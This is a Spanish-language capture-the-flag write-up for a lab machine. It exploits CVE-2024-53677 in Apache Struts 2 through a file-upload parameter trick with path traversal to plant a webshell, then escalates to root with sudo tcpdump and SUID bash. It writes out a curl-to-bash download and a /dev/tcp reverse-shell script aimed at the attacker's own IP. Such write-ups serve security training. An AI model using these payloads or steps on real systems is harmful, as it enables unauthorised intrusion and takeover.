

En esta máquina aprendemos a explotar la vulnerabilidad **CVE-2024-53677**, en la cual obtenemos un RCE (Remote Code Execution) en Apache Struts 2, debido a una falla de lógica a la hora de subir archivos. Ya que no pude hacerlo mediante el POC, me tocó investigar y hacerlo manualmente. Hay una pequeña trampa a la hora de entrar como usuario, pero luego la escalada es bastante sencilla.

## Enumeración

Inicio mi etapa de enumeración escaneando los posibles puertos abiertos con nmap. Se detectan dos puertos abiertos: 80 (HTTP) y 22 (SSH).


Acá no vemos nada de interés y, al hacer el escaneo de scripts, tampoco veremos nada relevante. Para esta máquina tendremos que aplicar la resolución local de hosts, añadiendo _http://strutted.htb/_ al **/etc/hosts** y ya estaría; si no, te va a saltar error.

Ya dentro de la página, navegando un poco por ella, podremos descargar un archivo en el cual vienen varios archivos de interés.


El primero que llama mi atención es el `tomcat-users.xml` que, en efecto, está filtrando unas credenciales; pero al intentar conectarme con ellas no me deja, así que solo las reservo para un futuro (nunca se usaron).


Al seguir investigando encontramos un **pom.xml** (son archivos en los que se encuentra la información del proyecto en Maven) y descubrimos que corre el framework _Apache Struts_.


Este framework es vulnerable en las versiones anteriores a la 6.4.0. Esta vulnerabilidad, como se dijo en la sinopsis, explota el fallo lógico en la subida de archivos. Busqué varios POCs, pero ninguno me funcionó. Este artículo lo explica muy bien a la hora de explotarlo manualmente y te hace entender la lógica de esta vulnerabilidad: [hackerplayers](https://www.hackplayers.com/2023/12/explotando-cve-2023-50164-rce-en-struts2.html)

Procedemos a abrir nuestro BurpSuite e interceptar la subida del archivo; intento subir un .txt pero me lo rechaza.


## Reconocimiento

Ahora viene la magia de esta vulnerabilidad: gracias a los interceptores, que permiten ejecutar código justo antes y después de que se invoque una acción, es posible manipular el proceso de subida de archivos.


Al cambiar el campo `upload` por `Upload` (con mayúscula) y añadir otro campo llamado `uploadFilename`, el atacante puede controlar el nombre del archivo subido, lo que permite escribirlo en una ubicación específica del servidor y potencialmente lograr ejecución remota de código (RCE).


_Cosas a tener en cuenta: fíjate bien en los espacios, porque si no, no funcionará. Hemos mezclado esta vulnerabilidad con un **path traversal** para subirlo en el directorio principal._

Nos cercioramos de que el archivo se subió adecuadamente.


Dado que el servidor interpreta directamente los archivos que subimos, es posible cargar una webshell. Esto permitiría ejecutar comandos en el servidor comprometido y obtener acceso remoto al sistema.


<span style="font-size:12px">_Al abrir la página nos encontraremos con un InputBox en el cual podremos ejecutar comandos y obtener nuestra reverse shell._</span>


Para obtener nuestra _Reverse Shell_, tenemos que jugar con el **curl -o /tmp/shell tu-IP | bash**. Esta fue la única manera que encontré de alcanzar la reverse shell: descargo el archivo en el TMP y luego lo ejecuto con `bash /tmp/shell`.
```bash
#!/bin/bash

bash -i >& /dev/tcp/tu-ip/port 0>&1
```

## Explotación


Una vez ya estemos dentro del servidor, empezaremos con nuestra enumeración. Intenté probar las credenciales que habíamos obtenido antes para entrar como el usuario James, pero no funcionó. Busqué por el mismo nombre y ahí también encontré unas credenciales filtradas.

```bash
grep -r "tomcat-users.xml" 2>/dev/null
```


Intenté probar entrar con estas credenciales, lo cual fue en vano... Busqué y busqué la manera de acceder como el usuario James, pero nada. Pensé que era imposible, pero mirando otros writeups descubrí que sí podías acceder por medio de SSH con esta credencial. Lo hicieron para joder, la verdad :).
 


La escalada de privilegios en esta máquina es bastante sencilla: ejecuté **sudo -l** y vemos que el **/usr/sbin/tcpdump** lo podemos ejecutar como sudo sin proporcionar contraseña. Buscamos en [GTFOBins](https://gtfobins.github.io/gtfobins/tcpdump/).


Cambiamos el `id` por `chmod u+s /bin/bash`, dándoles permisos SUID. Podrías hacerlo con un `cat /root/root.txt`, pero creo que aplicar el concepto de darle permisos SUID y poder entrar como root me parece más óptimo. Ejecutamos `bash -p` y entraríamos a la consola como root.


#### Conclusió

Esta máquina fue bastante curiosa y divertida. Aprendimos a explotar el CVE-2024-53677, trabajamos con path traversal, enumeramos y filtramos contraseñas. Algo a destacar de la máquina fue la trampa a la hora de ingresar como James, un detalle a tener en cuenta de aquí en adelante. También jugamos con permisos SUID y realizamos escalada de privilegios usando GTFOBins.

Como conclusión, fue un reto muy completo y útil para afianzar técnicas de explotación y post-explotación.
# FIN
